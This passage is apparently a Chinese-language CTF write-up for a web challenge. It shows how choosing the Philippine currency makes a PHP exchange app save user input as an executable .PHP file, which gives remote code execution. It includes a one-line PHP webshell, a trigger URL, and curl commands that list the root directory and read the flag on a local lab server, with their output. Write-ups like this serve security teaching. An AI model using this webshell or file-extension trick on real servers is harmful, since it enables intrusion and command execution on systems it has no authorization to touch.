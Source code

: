         $filePath = "upload/" . md5(uniqid()) . "." . $isoName;
        file_put_contents($filePath, $htmlContent);

        $resultLink = "<a href='" . $filePath . "'> 👁️ exchange result</a>";
    }
    ?>
    ```
    前一段所說的功能就是這一段在做的事情，而從docker後台也可以看到一樣的狀況
    ![image](https://hackmd.io/_uploads/Hy9HFqgop.png)
    在docker中的/upload/就會存成這樣的內容
    ![image](https://hackmd.io/_uploads/S1MOY9esa.png)
    所以是不是我們可以填入最基本的webshell後，當我們query這個file時就自動跑起來
4. 遭遇的困難
    如果只是利用剛剛的狀態直接寫`<?php system($_GET['sh']); ?>`，會不成功，原因是雖然後端還是儲存成一個看起來像webshell的內容但是，送到前端被render後會被當作一般的comment，這也是我一開始卡的地方
    ![image](https://hackmd.io/_uploads/rkqK9cesT.png)
5. How to solve?
    可以觀察前面的dockerfile，倒數第二行的
    > AddType application/x-httpd-php .php .Php .pHp .phP .pHP .PHp .PHP
    根據chatgpt:
    > 在Apache的配置文件 `/etc/apache2/apache2.conf` 中添加 `AddType application/x-httpd-php .php .Php .pHp .phP .pHP .PHp .PHP` 的意思是告訴Apache服務器將以 `.php`, `.Php`, `.pHp`, `.phP`, `.pHP`, `.PHp`, `.PHP` 結尾的文件視為PHP腳本文件進行解析和執行。這樣做可以確保Apache在收到這些文件請求時，將它們交給PHP解釋器處理，而不是簡單地將它們作為靜態文件發送給客戶端。

    (也就是說如果作者沒有加上這一段的話就不用玩了，應該ㄅ...)

    所以我們要做的就很簡單了,看哪一個國家的縮寫是php相關的，只要選取該國家，後端就會把檔案取名成`.PHP`，翻了一下currency.php發現是==菲律賓==，所以只要選取菲律賓，並且用最簡單的php websehll就可以達到RCE
    ![image](https://hackmd.io/_uploads/SkOzHCeia.png)
6. 成功RCE
    Payload: 
    ```url
    http://localhost:33000/upload/d0a101da1484e8905de9fa45ed320d72.PHP?sh=ls
    ```
    ![image](https://hackmd.io/_uploads/B1RBr0ljp.png)

#### Exploit - Upload Webshell
Payload: 
```bash
$ curl "http://localhost:33000/upload/d0a101da1484e8905de9fa45ed320d72.PHP?sh=ls%20/"
<html><body><h1> Exchange result </h1><p>bin
boot
dev
etc
flag-lMXptmyC
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ curl "http://localhost:33000/upload/d0a101da1484e8905de9fa45ed320d72.PHP?sh=cat%20/flag-lMXptmyC"
<html><body><h1> Exchange result </h1><p>TSCCTF{FAKEFLAG}
```